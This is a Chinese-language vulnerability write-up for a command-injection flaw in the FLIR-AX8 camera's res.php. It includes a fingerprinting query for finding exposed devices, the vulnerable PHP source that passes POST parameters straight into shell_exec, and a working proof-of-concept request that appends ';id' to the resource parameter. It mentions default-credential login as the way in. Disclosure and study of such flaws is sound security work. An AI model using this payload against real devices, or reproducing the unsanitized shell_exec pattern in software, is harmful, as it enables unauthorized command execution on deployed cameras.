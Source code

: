 # FLIR-AX8 res.php 后台命令执行漏洞

## 漏洞描述

FLIR-AX8 res.php 文件存在后台命令执行漏洞，攻击者通过默认口令登录后台后获取服务器权限

## 漏洞影响

<a-checkbox checked>FLIR-AX8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="FLIR-FLIR-AX8"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662985620542-08eeac2c-70ee-475d-979d-52f4c9ec3be4.png)

出现漏洞的文件为 **res.php**

```sql
<?php
	if (isset($_POST["action"])) {
		switch ($_POST["action"]) {
			case "get":
				if(isset($_POST["resource"]))
				{
					switch ($_POST["resource"]) {
						case ".rtp.hflip":
							if (!file_exists("/FLIR/system/journal.d/horizontal_flip.cfg")) {
								$result = "false";
								break;
							}
							$result = file_get_contents("/FLIR/system/journal.d/horizontal_flip.cfg") === "1" ? "true" : "false";
							break;
						case ".rtp.vflip":
							if (!file_exists("/FLIR/system/journal.d/vertical_flip.cfg")) {
								$result = "false";
								break;
							}
							$result = file_get_contents("/FLIR/system/journal.d/vertical_flip.cfg") === "1" ? "true" : "false";
							break;
						default:
							$result = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -o ".$_POST["resource"]));
					}
				}
				break;
			case "set":
				if(isset($_POST["resource"]) and isset($_POST["value"])) {
					switch ($_POST["resource"]) {
						case "rtp.hflip":
							file_put_contents("/FLIR/system/journal.d/horizontal_flip.cfg", $_POST["value"] === "true" ? "1" : "0");
							break;
						case "rtp.vflip":
							file_put_contents("/FLIR/system/journal.d/vertical_flip.cfg", $_POST["value"] === "true" ? "1" : "0");
							break;
						default:
							$result = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rset ".$_POST["resource"]." ".$_POST["value"]));;
					}
				}

				break;
			case "measurement":
				if (isset($_POST["type"]) && isset($_POST["id"])) {
					$nodeData =  trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -i .image.sysimg.measureFuncs.".$_POST["type"].".".$_POST["id"]));
					$lines = explode("\n", $nodeData);
					foreach($lines as $line)
					{
						$resource = preg_split('/\s+/', $line);
						$value = trim($resource[1], "\"");
						$result[$resource[0]] = $value;
					}
				}
				break;
			case "global-parameters":
				$nodeData =  trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -i .image.sysimg.basicImgData.objectParams"));
				$lines = explode("\n", $nodeData);
				foreach($lines as $line)
				{
					$resource = preg_split('/\s+/', $line);
					$result[$resource[0]] = $resource[1];
				}
			case "alarm":
				if(isset($_POST["id"]))
				{
					$nodeData = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls .image.sysimg.alarms.measfunc.".$_POST["id"]));
					$lines = explode("\n", $nodeData);
					foreach($lines as $line)
					{
						$resource = preg_split('/\s+/', $line);
						$value = trim($resource[1], "\"");
						$result[$resource[0]] = $value;
					}
				}
				break;
			case "calibrate":
				$result = shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/nuc");

				break;
			case "node":
				$nodes = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls ".$_POST["resource"]));
				$result = preg_split("/\s+\n/", $nodes);
				break;
		}
		echo json_encode($result);
	}
?>
```

验证POC

```sql
POST /res.php

action=node&resource=;id
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662987302792-cb7e9b62-7682-4e34-a152-171922292c7d.png)